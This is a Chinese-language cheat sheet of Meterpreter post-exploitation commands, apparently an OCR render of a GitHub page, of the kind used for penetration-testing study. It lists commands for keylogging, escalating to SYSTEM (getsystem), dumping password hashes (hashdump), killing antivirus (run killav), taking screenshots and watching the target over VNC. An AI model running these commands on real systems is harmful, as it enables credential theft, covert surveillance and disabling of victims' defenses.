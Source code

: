 |                                                              |                                                      |
|                                                              |                                                      |
|                                                              |                                                      |
|                                                              |                                                      |
|                                                              |                                                      |
|                                                              |                                                      |

# meterpreter渗透命令

| 常用命令                                 |                              |
| ---------------------------------------- | ---------------------------- |
| background                               | 放回后台                     |
| sessions -l                              | 查看后台回话                 |
| sessions 会话ID                          | 进入会话                     |
| exit                                     | 关闭会话                     |
| help                                     | 帮助信息                     |
| sysinfo                                  | 系统平台信息                 |
| migrate pid                              | 迁移进程                     |
| getlwd                                   | 查看攻击机目录               |
| getwd                                    | 查看靶机目录                 |
| lcd                                      | 切换攻击机目录               |
| ls                                       | 查看靶机目录列表文件         |
| cd                                       | 进入指定目录                 |
| rm                                       | 删除文件                     |
| download                                 | 下载文件                     |
| upload                                   | 上传文件                     |
| execute -f cmd.exe -i                    | 执行程序,不安全靶机会打开cmd |
| shell                                    | 命令行cmd                    |
| ps                                       | 查看进程                     |
| run post/windows/capture/keylog_recorder | 键盘记录                     |
| getuid                                   | 查看当前用户权限             |
| use priv                                 | 加载权限模块                 |
| getsystem                                | 提升到system权限             |
| hashdump                                 | 导出密码散列                 |
| run killav                               | 关闭杀毒软件                 |
| screenshot                               | 屏幕截图                     |
| run vnc                                  | 视屏功能动态查看靶机电脑动向 |
